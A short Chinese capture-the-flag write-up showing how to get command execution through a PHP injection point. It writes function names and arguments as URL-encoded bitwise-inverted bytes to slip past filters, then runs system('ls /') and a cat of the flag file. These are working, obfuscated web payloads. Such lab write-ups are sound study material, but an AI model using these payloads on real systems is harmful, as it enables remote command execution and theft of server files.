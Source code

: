 ![1744647836426](image/NSS/1744647836426.png)

尝试使用（再次通过~来取反恢复为原来的密码)

```
(~%8F%9C%9E...)(~%9C%9E...)
// 等价于：
('system')('cat /flag');
```

括号在此处有两个关键作用：

1. **包裹函数名** ：`(~%8F%9C%9E...)` 会被优先计算，结果作为函数名。
2. **包裹参数** ：`(~%9C%9E...)` 会被计算为字符串参数。

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D0);
```

得到，发现了flag

![1744648061063](image/NSS/1744648061063.png)

尝试获取flag内容

```
/?wllm=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%D0%99%93%93%93%93%93%9E%9E%9E%9E%9E%9E%98%98%98%98%98%98%98)
```

得到flag

# ![1744648291412](image/NSS/1744648291412.png)17[第五空间 2021]签到题
